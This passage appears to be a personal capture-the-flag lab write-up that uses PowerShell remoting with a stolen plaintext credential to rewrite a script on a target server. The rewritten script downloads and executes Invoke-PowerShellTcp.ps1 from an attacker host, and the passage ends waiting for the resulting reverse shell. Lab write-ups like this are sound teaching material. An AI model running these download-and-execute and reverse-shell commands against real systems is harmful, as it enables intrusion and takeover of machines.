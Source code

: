 TIL about `IWR = Invoke-WebRequest` 

Although powershelling along with Al was great and all I alway back up files after at atleast trying to be professional as possible. I guess maybe we can just paste it back in, but this got me worried enough considering the probablity of failing and having to reset the box. 

This section was really slow.  
```powershell
$pass = convertto-securestring -asplaintext -force -string "W3_4R3_th3_f0rce."
$cred = new-object -typename system.management.automation.pscredential("acute\imonks",$pass)

# BEWARE THE PARENTHESES!

invoke-command -computername ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { ((Get-Content -Path C:\Users\imonks\desktop\wm.ps1 -Raw) -replace 'Get-Volume', 'C:\Utils\zzz.exe') | Set-Content -Path C:\Users\imonks\desktop\wm.ps1 }
```
[Use basic Parsing is deprecated as of 6.0.0](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest)

I had real trouble debug the changes as I missed an extra `)` and could not remove. My mistakes where in PARENTHESES. The problem with verbosity is nest paratheses are a nightmare to read.
```powershell
invoke-command -computername ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { ((Get-Content -Path C:\Users\imonks\desktop\wm.ps1 -Raw) -replace 'Get-Volume', 'IEX(IWR http://10.10.14.109/Invoke-PowerShellTcp.ps1 -UseBasicParsing)') | Set-Content -Path C:\Users\imonks\desktop\wm.ps1)) }

# and to replace the IWR!
invoke-command -computername ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { ((Get-Content -Path C:\Users\imonks\desktop\wm.ps1 -Raw) -replace 'IWR http://10.10.14.109/Invoke-PowerShellTcp.ps1 -UseBasicParsing', '(New-Object Net.WebClient).downloadString("http://10.10.14.109/Invoke-PowerShellTcp.ps1")') | set-Content -Path C:\Users\imonks\desktop\wm.ps1)) } 
```

![](hurrayforps.png)

Ok it really does not like being replaced more than once.  I tried calling the meterpreter shell from `C:\util` in the script but that failed.

[2:30-55](https://www.youtube.com/watch?v=IRSm7kalGPY)

```powershell
invoke-command -computername ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { ((Get-Content -Path C:\Users\imonks\desktop\wm.ps1 -Raw) -replace 'Get-Volume', 'IEX(New-Object Net.WebClient).downloadString("http://10.10.14.109/Invoke-PowerShellTcp.ps1")') | set-Content -Path C:\Users\imonks\desktop\wm.ps1 } 

invoke-command -computername ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { C:\Users\imonks\desktop\wm.ps1 }
```

Being patient it took like five minutes, still waiting on the reverse shell. VPN is fine, still waiting
![](callbackyeeeeeeeah.png)
